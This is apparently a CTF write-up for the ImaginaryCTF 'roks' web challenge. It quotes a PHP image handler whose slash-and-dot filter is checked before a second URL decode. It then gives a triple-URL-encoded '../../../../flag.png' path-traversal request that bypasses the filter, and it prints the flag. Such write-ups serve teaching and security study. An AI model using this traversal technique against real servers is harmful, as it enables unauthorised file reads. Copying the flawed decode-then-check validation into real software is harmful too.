

# roks

## Description

> My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
>
> Author: FIREPONY57
>
> https://imaginaryctf.org/r/0Sm4V#roks.zip \
> http://roks.chal.imaginaryctf.org

Tags: _web_

## Solution

This is a web app to see random rock pictures, we are provided with the source code which in summary tells us that the app is in the /var/www/html directory, pictures are retrieved from /var/www/html/images, the flag is at the root and the image displayed is defined using the `file` parameter passed through the URL and is subject to the following validation:

```php
<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

The provided file path is decoded from the URL twice, first in [`$_GET`](https://www.php.net/manual/es/reserved.variables.get.php) and then in the [`urldecode()`](https://www.php.net/manual/en/function.urlencode.php) function. If the file path contains whether the character `/` or `.` the app will return a funny image asking not to hack the website.


This validation is intended to prevent the site from directory path traversal attacks. However, it does not have in account a path encoded in URL three times. In this way, the path would be encoded once when it reaches the validation check, and it wouldn't be recognized as either `/` or `.` by [`str_contains()`](https://www.php.net/manual/en/function.str-contains.php), allowing it to pass the validation.
Therefore, we can use the payload `../../../../flag.png` encoded in URL three times, and put it in the `file` parameter to retrieve the `flag.png`, like this (you can use an encoder like the BurpSuite's one or an online encoder):

```
http://roks.chal.imaginaryctf.org/file.php?file=%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%37
```

Well done! We successfully retrieved the flag!



Flag `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`
